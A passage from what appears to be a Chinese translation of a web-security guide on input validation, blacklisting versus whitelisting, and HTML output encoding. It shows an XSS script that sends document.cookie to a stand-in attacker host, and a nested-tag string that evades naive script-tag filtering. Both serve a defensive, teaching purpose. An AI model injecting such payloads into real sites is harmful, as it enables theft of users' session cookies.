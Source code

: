 ```
<script>new Image().src = ‘http://evil.martinfowler.com/steal?' + document.cookie</script>
```

这种情况下你就会面临一个用来盗取你的 Cookies 的 XSS 攻击代码，如果你一定要给用户反馈，你必须保证不会把不受信任的用户内容直接返回，而应该使用固定的提示信息。如果你不可避免地要把用户的输入反馈回去，你要保证它是被编码的。

## In Practice

实践中，我们经常要通过过滤`<script>`标签来避免一些攻击，过滤掉这些包含着危险值的输入的方法就是所谓的**negative validation **或者**blacklisting**。不过这种方法的麻烦之处在于潜在的危险输入是相当多的，很多时候不能胜数。维持一个庞大的危险输入的列表可能是耗费较大的操作，这需要进行频繁地更新。如果你真的需要一个黑名单，这就需要覆盖你所有的测试用例，编写高质量的测试代码，遵循 OWASP 的[XSS_Filter_Evasion_Cheat_Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)原则。对于危险输入的过滤，我们常常称之为**sanitization**，即是在输入中移除那些黑名单中的元素而不是直接拒绝。不过这种黑名单机制，很难保证完全正确，往往也会给攻击者更多地漏洞机会。譬如，在上面的例子中，我们是选择移除`<script>`标签，而一个攻击者可以通过输入下面这样的字符串来逃避检查：

```
<scr<script>ipt>
```

在现代的 Web 应用程序开发中，已经有很多现成的框架提供了基础的过滤功能。内建的对于邮件地址、信用卡号码等等过滤还是灰常好用的，使用这些网络框架提供的验证机制可以有效避免一些严重的错误，譬如: | Framework | Approaches | | ---------------------------------------- | ---------------------------------------- | | Java | Hibernate (Bean Validation) | | ESAPI | | | Spring | Built-in type safe params in Controller | | Built-in Validator interface (Bean Validation) | | | Ruby on Rails | Built-in Active Record Validators | | ASP.NET | Built-in Validation (see BaseValidator) | | Play | Built-in Validator | | Generic JavaScript | xss-filters | | NodeJS | validator-js | | General | Regex-based validation on application inputs |

## In Summary

- 尽可能地使用白名单
- 在不能用白名单的时候用黑名单
- 尽可能地使用严格约定
- 确保警示潜在的攻击
- 避免直接地输入反馈
- 尽可能地在不可信数据深入系统逻辑之前进行处理，或者直接使用你的框架的白名单机制

# Encode HTML Output:HTML 输出内容编码

除了上述所说的对于输入的过滤与限制之外，Web 应用的开发者还需要关注返回的数据。一个现代的 Web 应用往往会用 HTML 标记来构建文档结构，用 CSS 来构建文档样式，JavaScript 来构建应用逻辑。一个 HTML 文档通常使用像`<script>`或者`<style>`这样的标记来进行切割。用户可能在没料到的地方使用尖括号，特别是在一个可执行的上下文中附着一些特定内容，譬如 HTML 与 JavaScript 都会包含 URL，只不过它们各有各的处理方法。

## Output Risks

HTML 本身是一个非常非常宽松自由的格式，浏览器会尽可能地来渲染内容，即使发现了些格式错误。这一点对于开发者非常友好，不过这也是一个很大的漏洞的源泉。攻击者可能在向你的页面中注入一些内容来打破可执行的上下文，甚至不需要考虑整个页面是否有效。处理输出内容并不一定是安全地考虑，应用从数据库与上游服务中获取的渲染数据务必保证不会影响到整个应用，不过从不可信的数据源得到的渲染内容还是会存在很大的风险。就如上文所说的，开发者应该拒绝那些超出约定的输入，不过有时候我们不可避免的需要接收像尖括号那样的可能更改我们的代码的内容，这也就是下面所说的**output encoding**所需要起作用的地方。

## Output Encoding

输出编码即是将输出的数据流转化为最终的输出的格式，输出编码的难点或者复杂的地方在于需要根据输出数据流向的不同选定不同的编码方式。如果没有合适的编码方式，应用可能会给客户端提供一个错误格式的数据，导致输出数据不可用乃至于存在一定风险。攻击者往往会利用错误的编码方式中的漏洞使得整个输出数据的结构失控。譬如在我们的电商系统中有个用户叫做 Sandra Day O'Connor，系统会在该用户登录的时候输出一个欢迎辞，那么当她的名字渲染到 HTML 页面上的时候，效果大概是这样的：
